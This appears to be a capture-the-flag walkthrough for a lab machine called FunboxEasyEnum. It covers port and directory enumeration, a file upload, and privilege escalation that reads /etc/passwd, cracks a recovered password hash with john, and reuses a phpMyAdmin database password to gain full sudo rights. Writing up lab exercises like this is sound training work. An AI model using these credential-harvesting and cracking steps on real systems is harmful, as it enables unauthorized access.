

# FunboxEasyEnum

***

IP=192.168.240.132

## NMAP

| PORT   | STATE | SERVICE |
| ------ | ----- | ------- |
| 22/tcp | open  | ssh     |
| 80/tcp | open  | http    |

```perl
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9c52325b8bf638c77fa1b704854954f3 (RSA)
|   256 d6135606153624ad655e7aa18ce564f4 (ECDSA)
|_  256 1ba9f35ad05183183a23ddc4a9be59f0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```bash
/index.html           (Status: 200) 
/javascript           (Status: 301) 
/mini.php             (Status: 200)                                        
/robots.txt           (Status: 200)                                         
/phpmyadmin           (Status: 301) 
```

### File Upload


<figure><figcaption></figcaption></figure>

## PrivEsc

```bash
cat /etc/passwd
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
```

```bash
echo '$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

> oracle:hiphop

```bash
cat /etc/phpmyadmin/config-db.php
$dbuser='phpmyadmin';
$dbpass='tgbzhnujm!';
```

```bash
su karla
tgbzhnujm!
```

```bash
sudo -l

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
```
